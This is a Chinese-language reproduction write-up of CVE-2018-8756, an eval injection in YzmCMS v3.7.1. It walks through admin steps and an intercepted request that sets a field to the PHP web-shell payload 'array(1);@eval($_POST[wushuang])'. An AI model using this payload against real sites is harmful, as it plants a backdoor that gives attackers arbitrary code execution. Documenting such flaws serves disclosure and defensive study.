 ```yaml
---
title: （CVE-2018-8756）YzmCMS v3.7.1 Eval注入漏洞
id: zhfly3305
---
```


# （CVE-2018-8756）YzmCMS v3.7.1 Eval注入漏洞

## 一、漏洞简介

YzmCMS是中国程序员袁志蒙开发的一套开源的CMS（内容管理系统）。 YzmCMS 3.7.1版本中的yzmphp/core/function/global.func.php文件存在安全漏洞。远程攻击者可借助index.php?m=member&c=member_content&a=init请求的POST数据中的PHP代码利用该漏洞执行任意代码。

## 二、漏洞影响

YzmCMS v3.7.1

## 三、复现过程

首先，从网站后台登陆，/index.php?m=admin&c=index&a=init，然后选择模型管理，选 择模型 ID 为 1 的那个字段管理，然后添加字段，像下面这张图一样填表。

![image](../img/90e2cfb2d2e8c601b462fd128d45efe0.png)

接着需要拦截数据包，像图片一样，

```
修改 fieldtype 为 datetime，修改 datesest 为 array(1);@eval($_POST[wushuang]) 
```

![image](../img/207b7c3251a6970bc6bdc4f23e013ab2.png)

接着我们需要一个用户可以触发这个漏洞，选择会员管理，选择会员管理，添加用户， 填表如下。

![image](../img/d188b2518b2e19cc0e1eefe053194dfc.png)

现 在 我 们 已 经 完 成 了 准 备 工 作 ， 接 着 以 用 户 身 份 登 陆 ， guici/123456,/index.php?m=member&c=index&a=login，点击在线投稿，接着你就可以执行任 意代码通过输入 post 数据 wushuang！/index.php?m=member&c=member_content&a=init

![image](../img/ff22efcae1c97fc09513fe6f6ce1dc57.png)

## 参考链接

> https://github.com/guiciwushuang/yzmcms/blob/master/yzmcms_eval_injection_chinese.pdf